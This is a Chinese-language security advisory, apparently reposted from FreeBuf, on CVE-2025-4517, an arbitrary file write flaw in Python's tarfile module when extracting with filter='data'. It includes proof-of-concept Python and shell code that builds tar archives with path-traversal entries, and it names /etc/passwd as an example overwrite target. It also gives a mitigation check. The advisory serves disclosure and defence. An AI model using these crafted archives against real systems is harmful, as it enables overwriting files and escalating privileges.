 #  Python标准库tarfile模块存在任意文件写入高危漏洞，PoC已公开  
 网络安全与人工智能研究中心   2025-06-28 02:39  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/ezpQRXtYHibykdgfR7Bfd3D5gQ9smYkhUSicwuicfUyAydJhQTRo5N6XPD9LxvGALWdC7ZZVI2R6skN0r8WUhrjcA/640?wx_fmt=gif&from=appmsg "")  
  
  
安全研究人员发现Python标准库中的tarfile模块存在高危漏洞（CVE-2025-4517，CVSS评分9.4）。该漏洞允许攻击者通过特制的tar压缩包实现任意文件写入（Arbitrary File Write），目前概念验证代码（PoC）已在技术社区流传。  
  
  
**Part01**  
  
### 漏洞概述  
  
  
  
CVE-2025-4517是Python的  
tarfile  
模块中存在的一个严重漏洞，影响Python 3.12及更高版本。该漏洞允许在使用  
filter="data"  
参数进行解压时，在解压目录之外执行任意的文件系统写入操作。  
  
  
当用户使用  
tarfile  
模块通过  
TarFile.extractall()  
或  
TarFile.extract()  
方法提取不受信任的tar归档文件，并将  
filter  
参数设置为  
"data"  
或  
"tar"  
时，会受到影响。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ezpQRXtYHibwpXMNl16ibj6lYK4CFmqtsXptrYBNCCLiaAS1ICWE7IsJB4tJ0wX7COEXicoUvODyapo06zNt7evBwg/640?wx_fmt=png&from=appmsg "")  
  
  
**Part02**  
  
### 技术细节  
  
  
###   
  
当使用  
TarFile.extractall  
或  
TarFile.extract  
配合  
filter="data"  
或  
filter="tar"  
处理不受信任的tar归档文件时，攻击者可利用此漏洞向文件系统的任意位置写入文件。  
  
  
该漏洞的根源在于：虽然  
data  
过滤器本应通过阻止tar归档内危险目标（如符号链接或设备文件）来提供防护，但其未能有效防范路径遍历攻击。这意味着精心构造的tar归档文件可将文件写入预期解压目录之外。  
  
**Python官方已将该漏洞的CVSS v3.1基础评分定为9.4（严重），其向量字符串为CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:L。**  
###   
  
  
**Part03**  
  
### 风险关键点  
  
  
此漏洞对源码分发包安装的影响较小，因为该场景本身允许代码执行。但若通过程序处理来自用户、自动化流程或上传的任意 tar 文件，则存在风险。  
  
  
假设恶意tar文件包含以下路径：  
  
```
../../../../etc/passwd
```  
  
  
若未正确校验，解压时将覆写  
/etc/passwd  
或目标目录外的任意文件。  
  
"data"  
和  
"tar"  
过滤器本应对输出进行清理，但因此缺陷，其无法阻止包含目录遍历的文件名。  
  
假设存在以下代码：  
  
```
import tarfile
br
with tarfile.open('archive.tar', 'r') as tar:
    # filter="data" is the new recommended/safe default, right? (not anymore!)
    tar.extractall(path="safe_folder", filter="data")
```  
  
  
那么，精心构造的archive.tar可包含   
  
../../outside.txt  
类文件，会导致向父目录写入。  
  
通过Python  
复现漏洞的方式如下：  
  
```
import tarfile
br
with tarfile.open('malicious.tar', 'w') as tar:
    import io
    info = tarfile.TarInfo("../../outside.txt")
    data = b"This should not be here!"
    info.size = len(data)
    tar.addfile(info, io.BytesIO(data))
```  
  
  
通过shell生成复现漏洞的方式如下：  
  
```
echo "Evil!" > evil.txt
tar cvf malicious.tar --transform='s/^/..\/..\/..\/../' evil.txt
```  
  
  
使用存在漏洞的代码解压时，将在"safe_folder"的三级父目录写入 outside.txt。  
  
  
**Part04**  
  
### 漏洞影响  
  
  
###   
  
- **任意文件系统写入**  
：攻击者可覆写敏感文件（SSH 密钥、系统配置等）  
  
- **权限提升**  
：若Python脚本以root运行，后果可能是灾难性的。  
  
- **模式普遍性**  
：这种“解压即忘”模式存在于大量代码库，而 "data"  
 本应是安全默认值  
  
  
  
  
**Part05**  
  
### 缓解措施与解决方案  
  
  
1、短期解决此问题，可  
自主验证归档内容或使用强化解压，  
此方案至少可检测并阻止路径遍历，具体代码如下：  
  
```
import os
import tarfile
br
def is_within_directory(directory, target):
    abs_directory = os.path.abspath(directory)
    abs_target = os.path.abspath(target)
    return abs_target.startswith(abs_directory + os.sep)
br
with tarfile.open('archive.tar', 'r') as tar:
    for member in tar.getmembers():
        member_path = os.path.join("safe_folder", member.name)
        if not is_within_directory("safe_folder", member_path):
            raise Exception("Attempted Path Traversal in Tar File")
    tar.extractall("safe_folder", filter="data")
```  
  
  
2、  
长期解决方案是升级到已修复该漏洞的Python版本。  
  
  
**参考来源：**  
  
Critical Python Tarfile Flaw (CVE-2025-4517, CVSS 9.4): Arbitrary File Write, PoC Available  
  
https://securityonline.info/critical-python-tarfile-flaw-cve-2025-4517-cvss-9-4-arbitrary-file-write-poc-available/  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ezpQRXtYHibykdgfR7Bfd3D5gQ9smYkhUMk71re53Z8Xju62nS9agGCNgUNjPibQP7YZthr22UXppftxLN0kp97A/640?wx_fmt=png&from=appmsg "")  
###   
  
  
来源｜“FreeBuf”微信公众号  
  
编辑｜音叶泽  
  
审核｜秦川原  
  
  
